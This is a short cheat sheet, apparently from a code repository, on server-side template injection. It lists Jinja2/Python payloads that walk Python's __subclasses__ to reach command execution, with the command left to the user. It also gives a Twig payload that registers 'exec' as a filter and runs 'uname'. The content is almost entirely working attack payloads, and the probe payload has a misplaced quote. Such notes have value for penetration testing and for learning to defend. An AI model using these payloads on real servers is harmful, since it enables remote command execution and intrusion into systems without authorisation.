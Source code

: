 # SSTI

Server Side Template Injection - ```{{'7*'7}}```.  See https://hackerone.com/reports/125980 for an example.

So accessing `http://example.com/{{'7*'7}}` might give you an error like this: `Page not Found: http://example.com/7777777`

```python
example.com/{{''.__class__.mro()[1].__subclasses__()}}
example.com/{{''.__class__.mro()[1].__subclasses__()[X]}}          # X = int
example.com{{''.__class__.mro()[1].__subclasses__()[X](COMMAND)}} # COMMAND = choose your own adventure

{{''.__class__.mro()[2].__subclasses__()[233](["command", "argument"])}}
# the [] at the end creates an array
```

```
{{_self.env.registerUndefinedFilterCallback('exec')}}{{_self.env.getFilter('uname')}}
```

